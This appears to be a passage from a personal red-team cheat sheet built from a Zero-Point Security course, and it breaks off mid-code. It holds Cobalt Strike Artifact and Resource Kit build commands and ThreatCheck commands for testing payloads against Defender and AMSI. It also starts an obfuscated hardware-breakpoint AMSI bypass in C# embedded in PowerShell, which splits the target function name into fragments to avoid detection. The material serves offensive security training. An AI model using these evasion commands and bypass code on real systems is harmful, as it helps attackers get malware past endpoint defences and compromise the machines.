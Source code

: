 # Zero-Point Security Red Team Operations (RTO) I
All the commands from the course, generalized and tweaked to suit my needs, organized in a logical order

***DO NOT USE THIS DOCUMENT AS IS***

Here's its intended use:
1. open this markdown file in [Obisidan](https://obsidian.md)
2. in Settings → Core Plugins, enable Outline, then run "Outline: Show Outline" in the command palette
     - Now you can quickly jump to a particular section by clicking its heading in the outline.
3. in Settings → Community plugins → Browse, find and install "Copy Inline Code"
     - Now you can copy any command simply by clicking on the end of it.
4. enter "reading" view by clicking the book in the top-right (by default)
     - Now you can see commands for linked sections simply by hovering over them.

## Microsoft Defender Antivirus
`Get-MpThreatDetection | sort $_InitialDetectionTime | select -First 1`
#### Artifact Kit

Build
`cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact`
`./build.sh pipe VirtualAlloc 310272 5 false false none /mnt/c/Tools/cobaltstrike/artifacts`
Detect Threats
`C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Tools\cobaltstrike\artifacts\pipe\[artifact].exe`
#### Resource Kit

Build
`cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/resource`
`./build.sh /mnt/c/Tools/cobaltstrike/resources`

Detect Threats
`C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\[resource].ps1 -e amsi`
#### Manual AMSI Bypasses
use with PowerShell payloads

AMSI Bypass → host at /bypass
```powershell
$HWBP = @"
using System;
using System.Collections.Generic;
using System.Linq.Expressions;
using System.Linq;
using System.Runtime.CompilerServices;
using System.Net;
using System.Reflection;
using System.Runtime.InteropServices;

namespace HWBP {
	public class Amsi {
		static string a = "msi";
		static string b = "anB";
		static string c = "ff";
		static IntPtr BaseAddress = WinAPI.LoadLibrary("a" + a + ".dll");
		static IntPtr pABuF = WinAPI.GetProcAddress(BaseAddress, "A" + a + "Sc" + b + "u" + c + "er");
		static IntPtr pCtx = Marshal.AllocHGlobal(Marshal.SizeOf(typeof(WinAPI.CONTEXT64)));
		
		public static void Bypass() {
			WinAPI.CONTEXT64 ctx = new WinAPI.CONTEXT64();
			ctx.ContextFlags = WinAPI.CONTEXT64_FLAGS.CONTEXT64_ALL;
			
```